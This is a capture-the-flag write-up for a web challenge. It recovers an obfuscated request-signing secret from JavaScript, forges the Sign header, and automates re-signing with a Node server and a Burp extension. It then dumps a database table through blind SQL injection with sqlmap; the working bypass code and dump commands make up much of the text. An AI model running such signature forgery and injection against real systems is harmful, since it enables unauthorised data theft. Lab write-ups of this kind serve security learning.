






SignedUrl Hub
The challenge is a mimic from this report https://buer.haus/2024/01/16/reversing-and-tooling-a-signed-request-hash-in-obfuscated-javascript/
We got a simple webApp which our goal is to get article ID 3 to get the flag
we got only two articles 1,2
and the request to get an article is below
GET /api/article?id=2 HTTP/1.1
Host: k34m4yau.ctfio.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://k34m4yau.ctfio.com/
Content-Type: application/json
Time: 1705844109476
Sign: 93035f0722e901ca6519fd0c2b36f77bf4f4de2e
User-Id: 1234
Connection: close
so we change id to 3 but we get 401, it doesnt accept changes the front end needs to sign the request and add its Sign header
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 21 Jan 2024 14:16:17 GMT
Content-Type: application/json
Connection: close
Content-Length: 58
{"error":{"code":401,"message":"Please refresh the page"}}
we go to the js files, there are only two files sha1.js which is from https://github.com/emn178/js-sha1 and main.js
the main.js is obfuscated and there is a list of strings and indexer function _0x13dd which replaces bits of code to hide code intent
we search for “sign” to see where it is set, and set a breakpoint there

in the samy way, the timastamp parameter which is set in let _0x383605 = Date[‘now’]() [_0x17f0a4(377)]();
sha1(
[_0x4cd499(351),
_0x43ee81,
_0x36740f,
_0x3b5808][_0x4cd499(362)]('\n')
);
_0x4cd499(351) is “pE5CRmAhC8fvaWy6u58tKDTEKCZyTKLA”, _0x43ee81 is the timeStamp , _0x36740f is the path in the url plus id paramter, _0x3b5808 is 1234 (user_id)
which is joined with newline in between and passed to sha1
Now after understanding the JS, we can just use sha1 in console to print our desired “sign” header with this command with 1705851236094 the timeStamp in the request, and /api/article?id=3 is out path
test = sha1(["pE5CRmAhC8fvaWy6u58tKDTEKCZyTKLA", "1705851236094", "/api/article?id=3", "1234"].join("\n"));
And we pass the sign check, but the article is not found
The idea seems like an sql problem, and if we need to pass it to sqlmap (because it was blindsql injection), we would need to automate our sign header with each request made
So i made node server which will just set header Sign based on the request timeStamp, path, idParamter, and user_id = “1234”
const express = require('express');
sha1 = require('js-sha1');
const app = express();
const port = 3000;
app.use(express.json());
app.use((req, res, next) => {
const { path, headers,originalUrl } = req;
const timeHeader = headers['time'];
const rawQuery = originalUrl.split('?')[1] || '';
// console.log(timeHeader)
const idParameter = rawQuery.split('=')[1] || '';
const signature = generateSignature(path,idParameter, timeHeader);
res.setHeader('Sign', signature);
next();
});
app.get('/api/some_endpoint', (req, res) => {
res.json({ result: 'Success' });
});
function generateSignature(path, idParameter,timeHeader) {
const p4 = "1234"
if(idParameter !=''){
path =`${path}?id=${idParameter}`
}
// console.log(path)
const signature = sha1(["pE5CRmAhC8fvaWy6u58tKDTEKCZyTKLA",timeHeader, path, p4].join("\n"));
return signature;
}
app.listen(port, () => {
console.log(`Server running at http://localhost:${port}`);
});
And a Burp plugin to pass any request it gets to that server to get the sign header and changes the old sign header with the new
from burp import IBurpExtender
from burp import IHttpListener
from burp import IInterceptedProxyMessage
import base64
import json
class BurpExtender(IBurpExtender, IHttpListener):
def registerExtenderCallbacks(self, callbacks):
self._callbacks = callbacks
self._helpers = callbacks.getHelpers()
self._callbacks.setExtensionName("Custom Sign Header Extension")
self._callbacks.registerHttpListener(self)
def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
if messageIsRequest and "ctfio.com" in self._helpers.analyzeRequest(messageInfo).getUrl().toString():
# Forward the modified request to the localhost server
response_from_local = self.forwardToLocalhostServer(messageInfo)
# Extract the 'Sign' header from the response from the localhost server
sign_header_value = self.extractSignHeader(response_from_local)
# Modify the original request to include the extracted 'Sign' header
final_request = self.modifyOriginalRequest(messageInfo, sign_header_value)
# Send the modified request to the original destination
#self.forwardToOriginalDestination(final_request)
def modifyRequest(self, messageInfo):
request_info = self._helpers.analyzeRequest(messageInfo)
headers = request_info.getHeaders()
# Add or manipulate headers as needed
# Example: headers.add("Custom-Header: Value")
modified_request = self._helpers.buildHttpMessage(headers, messageInfo.getRequest())
return modified_request
def forwardToLocalhostServer(self, modified_request):
try:
response_from_local = self._callbacks.makeHttpRequest("localhost", 3000, False, modified_request.getRequest())
if response_from_local is None:
print("Error: No response received from localhost server.")
return None
return response_from_local
except Exception as e:
print("Error forwarding to localhost server:", e)
return None
def extractSignHeader(self, response_from_local):
if response_from_local:
response_from_local=self._helpers.analyzeRequest(response_from_local)
sign_header = response_from_local.getHeaders()
for header in sign_header:
if header.startswith('Sign:'):
# Extract the value of 'Sign' header
sign_header = header.split(':', 1)[1].strip()
return sign_header
if sign_header:
return sign_header
else:
print("Sign header not found in the response")
else:
print("Invalid response or headers")
return None
def modifyOriginalRequest(self, original_request, sign_header):
original_headers = original_request.getRequest()
original_headers = self._helpers.analyzeRequest(original_headers)
original_headers = original_headers.getHeaders()
original_headers_copy = list(original_headers)
for header in original_headers_copy:
if header.startswith("Sign:"):
original_headers.remove(header)
# Add the new Sign header
original_headers.add("Sign: " + sign_header)
httpRequest = self._callbacks.getHelpers().buildHttpMessage(original_headers,"")
original_request.setRequest(httpRequest)
return original_request
# Instantiate the extension
burp_extender = BurpExtender()
So diagram be like this, from https://buer.haus/2024/01/16/reversing-and-tooling-a-signed-request-hash-in-obfuscated-javascript/
Then load my plugin into burp
Now i dont need to worry about the sign header, every change i make is automatically updated
Now all that’s left is sqlmap with proxy to burp sqlmap -r sreq –proxy http://127.0.0.1:8080 -p “id”
and i dump the contents columns sqlmap -r sreq --proxy http://127.0.0.1:8080 -p "id" --dump -C contents -T article -D news --level=5 --risk=3 and i find the flag